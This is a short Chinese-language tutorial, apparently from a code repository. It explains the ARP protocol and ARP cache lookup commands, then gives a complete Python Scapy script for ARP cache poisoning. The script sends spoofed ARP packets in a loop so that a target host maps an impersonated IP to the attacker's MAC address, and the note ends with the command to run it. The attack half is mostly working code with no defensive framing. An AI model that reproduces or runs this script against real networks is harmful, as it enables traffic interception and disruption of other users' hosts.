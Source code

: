 # 1. ARP

## 1.1 ARP协议
(Address Resolution Protocol) 地址解析协议, 是介于2层和3层的一中协议.

机器A向机器B发送消息:

A以广播形式询问所有机器(xx.xx.xx.0/24)B机器IP对应的MAC地址, 当B收到请求后, 会回复自己的MAC地址给A. 这种发送消息的方式为ARP请求/ARP广播

A将数据帧发送给网关, 由网关转发给B



## 1.2 ARP表
为了避免每次要向机器发送信息时都必须发送 ARP 广播, 用ARP表来缓存ip信息

查询命令:

```python
windows: arp -a
linux: arp -an
```

# 2. ARP攻击

利用Python的Scapy模块

```python
#!/usr/bin/python3

# Python script for ARP Cache Poisoning
import sys

from scapy.all import *

def get_mac_address():
    my_macs = [get_if_hwaddr(i) for i in get_if_list()]
    for mac in my_macs:
        if(mac != "00:00:00:00:00:00"):
            return mac

Timeout = 2

if len(sys.argv) != 3:
    print("Usage: arp_attack.py HOST_TO_ATTACK HOST_TO_IMPERSONATE")
    sys.exit(1)

my_mac = get_mac_address()
if not my_mac:
    print("Can not get local MAC address, quitting")
    sys.exit(1)

packet = Ether()/ARP(op="who-has", hwsrc=my_mac, psrc=sys.argv[2], pdst=sys.argv[1])

sendp(packet, loop=1, inter=0.2)
```

 执行:

```
python arp_attakc.py 攻击IP 设置IP
```
